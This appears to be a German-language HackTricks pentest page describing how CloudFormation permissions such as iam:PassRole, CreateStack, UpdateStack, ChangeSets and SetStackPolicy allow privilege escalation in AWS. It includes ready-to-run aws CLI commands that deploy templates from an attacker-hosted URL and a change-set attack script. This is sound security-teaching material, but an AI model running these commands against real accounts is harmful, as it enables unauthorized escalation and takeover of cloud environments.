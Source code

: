 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Für weitere Informationen über cloudformation siehe:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Ein Angreifer mit diesen Berechtigungen **kann Privilegien eskalieren**, indem er einen **CloudFormation-Stack** mit einer benutzerdefinierten Vorlage erstellt, die auf ihrem Server gehostet wird, um **Aktionen unter den Berechtigungen einer angegebenen Rolle auszuführen:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Auf der folgenden Seite haben Sie ein **Ausbeutungsbeispiel** mit der zusätzlichen Berechtigung **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Potenzielle Auswirkungen:** Privesc auf die angegebene cloudformation-Dienstrolle.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In diesem Fall können Sie einen **bestehenden cloudformation-Stack** missbrauchen, um ihn zu aktualisieren und Privilegien wie im vorherigen Szenario zu eskalieren:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst die `UpdateStack` Berechtigung** für einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc auf die angegebene cloudformation-Dienstrolle.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Wenn Sie diese Berechtigung haben, aber **keine `iam:PassRole`**, können Sie dennoch **die verwendeten Stacks aktualisieren** und die **IAM-Rollen, die bereits angehängt sind, missbrauchen**. Überprüfen Sie den vorherigen Abschnitt für ein Beispiel zum Ausnutzen (geben Sie einfach keine Rolle in der Aktualisierung an).

Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst die `UpdateStack` Berechtigung** für einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc auf die bereits angehängte cloudformation-Dienstrolle.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ein Angreifer mit Berechtigungen, um **eine Rolle zu übergeben und ein ChangeSet zu erstellen & auszuführen**, kann **einen neuen cloudformation-Stack erstellen/aktualisieren und die cloudformation-Dienstrollen missbrauchen**, genau wie bei CreateStack oder UpdateStack.

Der folgende Exploit ist eine **Variation des**[ **CreateStack Exploits**](./#iam-passrole-cloudformation-createstack), die die **ChangeSet-Berechtigungen** verwendet, um einen Stack zu erstellen.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst `ChangeSet` Berechtigungen** über einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc zu cloudformation Dienstrollen.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dies ist wie die vorherige Methode, ohne **IAM-Rollen** zu übergeben, sodass Sie einfach **bereits angehängte nutzen** können, ändern Sie einfach den Parameter:
```
--change-set-type UPDATE
```
**Potenzielle Auswirkungen:** Privesc auf die bereits angehängte Cloudformation-Service-Rolle.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ein Angreifer könnte diese Berechtigungen missbrauchen, um StackSets zu erstellen/aktualisieren und willkürliche Cloudformation-Rollen auszunutzen.

**Potenzielle Auswirkungen:** Privesc auf Cloudformation-Service-Rollen.

### `cloudformation:UpdateStackSet`

Ein Angreifer könnte diese Berechtigung ohne die passRole-Berechtigung missbrauchen, um StackSets zu aktualisieren und die angehängten Cloudformation-Rollen auszunutzen.

**Potenzielle Auswirkungen:** Privesc auf die angehängten Cloudformation-Rollen.

## Referenzen

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
